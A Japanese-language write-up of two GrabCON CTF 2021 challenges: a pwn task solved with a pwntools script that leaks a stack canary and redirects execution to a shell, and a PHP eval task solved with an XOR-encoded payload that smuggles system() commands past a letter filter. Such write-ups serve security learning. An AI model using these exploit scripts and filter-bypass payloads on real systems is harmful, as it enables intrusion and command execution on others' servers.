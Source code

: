```yaml
---
title: "GrabCON CTF 2021 Writeup"
date: 2021-09-05T20:00:00+09:00
lastmod: 2021-09-05T20:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">
<img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!"> <b><font color="teal">Save The Earth! - 地球環境を守ろう！</font></b> <img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!">
<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fcybrics_ctf_2021%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://ctf.thecybergrabs.org/](https://ctf.thecybergrabs.org/)
<br /><br />
結構、Server Errorが出てましたね。。

<br />

750点を獲得し、174位でした。

<br><br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_Score1.png" alt="grabcon_CTF_2021_Score1.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_Score2.png" alt="grabcon_CTF_2021_Score2.png">


<br><br>
チャレンジのリストです。

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_chall1.png" alt="grabcon_CTF_2021_chall1.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_chall2.png" alt="grabcon_CTF_2021_chall2.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_chall3.png" alt="grabcon_CTF_2021_chall3.png">

<br>



<br /><br />
## [Pwn]: Can you? (100 points)
- - -
### Challenge
> Can you?
<br /><br />
nc 35.246.42.94 31337

Attachment:

- cancancan (ELF 32bit)

<br />
### Solution
checksecを確認。
<pre>
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
</pre>

タイトルなどから、Canaryに関連したチャレンジなのがわかります。

<br />
Ghidraでコードを確認します。

{{< highlight powershell "linenos=table,hl_lines=27 28" >}}
undefined4 main(void)

{
  init((EVP_PKEY_CTX *)&stack0x00000004);
  puts("can you bypass me???");
  vuln();
  return 0;
}


void vuln(void)

{
  int in_GS_OFFSET;
  char *__buf;
  undefined4 uVar1;
  undefined4 uVar2;
  int local_78;
  char local_74 [100];
  int local_10;
  
  uVar2 = 0x80492d6;
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  for (local_78 = 0; local_78 < 2; local_78 = local_78 + 1) {
    uVar1 = 0x200;
    __buf = local_74;
    read(0,__buf,0x200);
    printf(local_74,__buf,uVar1,uVar2);
  }
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}


void win(void)

{
  system("/bin/sh");
  return;
}

{{< / highlight >}}

<br />
Buffer Overflow と、Format String Bug (書式文字列攻撃) の両方の脆弱性がありますね。

<br />
"ctf 32bit canary fsb leak" でググったら、以下のWikiでほぼそのまんまの内容が見つかりました。

[https://wiki.vaala.cloud/pwn/linux/mitigation/canary/#canary-leaks-canary](https://wiki.vaala.cloud/pwn/linux/mitigation/canary/#canary-leaks-canary)

<br />

書いたコード（ほぼ流用）

```Python
#!/usr/bin/env python
from pwn import *
context.binary = 'cancancan'

s = remote('35.246.42.94', 31337)

# Leak Canary
s.recvuntil("can you bypass me???")
payload = "A" * 100
s.sendline(payload)
s.recvuntil ("A" * 100)
Canary = u32(s.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
addr_win = ELF("./cancancan").sym["win"]
payload = b"A" * 100 + p32(Canary) + b"A" * 12 + p32(addr_win)
s.send(payload)
s.interactive ()

```

<br />
Wikiではあんまり説明がなかったので補足すると、pwntoolsのsendlineは最後に改行 ("\n") が入るので101バイトが書き込まれ、("\n") で Canary の "\x00" 部分が上書きされます。

これによって、printfの結果がもともと"\x00"で止まるはずだったのが、Canaryを含めて出力されます。

("\n")は "\x0a" なので、-0xa をしています。0xFFFFFF00 でゼロクリアでも同じ結果になるはず。


<br />

Flag: `GrabCON{Byp4ss_can4ry_1s_fun!}`



<br /><br />
<br /><br />
## [Web]: Basic Calc (150 points)
- - -
### Challenge
> Ever used calc based on php?
<br /><br />
Link

<br />
### Solution
ウェブサイトにアクセスすると、計算用のフォームと、PHPコードが表示されます。

PHPのコード部分は以下でした。
```php
<?php

if (isset($_POST["eq"])){
    
    $eq = $_POST["eq"];

    if(preg_match("/[A-Za-z`]+/",$eq)){
        die("BAD.");
    }
    echo "Result: ";
    eval("echo " . $eq . " ;");
}else{
  echo highlight_file('index.php',true);  
}

?>
```
<br />
アルファベットを使わずにコマンドを入力しeval()に渡す、ということをしないといけません。

<br />
これも、ググって調べると、どうやら Root-Me の「PHP Eval」という問題と同じみたいです。

以下の Write Up を参考にさせていただきました。<br>
[https://joshuanatan.medium.com/root-me-web-server-php-eval-f77584cae128](https://joshuanatan.medium.com/root-me-web-server-php-eval-f77584cae128)

<br />
コードは上記の Write Up をそのまま使ったので、ここには載せません。

<br />

system("ls -al")を実行したいとすると、
<pre>
system = ('('^'[').('$'^']').('('^'[').(')'^']').('%'^'@').('-'^'@')
ls -al / = (','^'@').('('^'[').('['^'{').'-'.('!'^'@').(','^'@').('['^'{').'/'
</pre>

<br />

以下をPOSTすることになります。
<pre>
<font color="red">(</font>('('^'[').('$'^']').('('^'[').(')'^']').('%'^'@').('-'^'@')<font color="red">)</font><font color="red">(</font>(','^'@').('('^'[').('['^'{').'-'.('!'^'@').(','^'@').('['^'{').'/'<font color="red">)</font>
</pre>
このようにカッコ（<font color="red">赤い</font>部分）をつけないと、単純にechoでコマンド自体が表示されて、コマンドの結果が得られません。

<br />

`ls -al /` を確認したら、/flagggg.txt があるのがわかります。

ここで、

`cat /flagggg.txt` をやろうとすると、以下のようにエラーになってしまいました。

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_basic_calc.png" alt="grabcon_CTF_2021_basic_calc.png">

<br />

`cat /*.txt` にて、フラグを得ることができました。

<br />

Flag: `GrabCON{b4by_php_f0r_y0u}`


<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />
